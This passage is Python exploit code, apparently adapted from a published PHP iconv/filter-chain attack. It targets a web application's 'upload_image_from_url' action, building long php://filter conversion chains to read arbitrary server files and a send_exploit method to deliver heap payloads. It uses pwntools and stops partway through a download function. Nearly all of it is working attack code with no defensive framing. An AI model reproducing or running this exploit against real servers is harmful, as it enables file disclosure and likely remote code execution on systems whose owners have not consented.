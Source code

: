 ```python

from __future__ import annotations

import base64
import urllib.parse
import zlib
import urllib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """

        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus('php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource='+path),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)


    def send_exploit(self, payload: bytes) -> Response:
        """Sends the payload to the server.
        """
        data = {'action' : 'upload_image_from_url',
                'url' : urllib.parse.quote_plus(payload),
                'id' : '1',
                'accepted_files' : 'image/gif'}
        return self.session.post(self.url, data=data)
        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        path = f"php://filter/convert.base64-encode/resource={path}"
```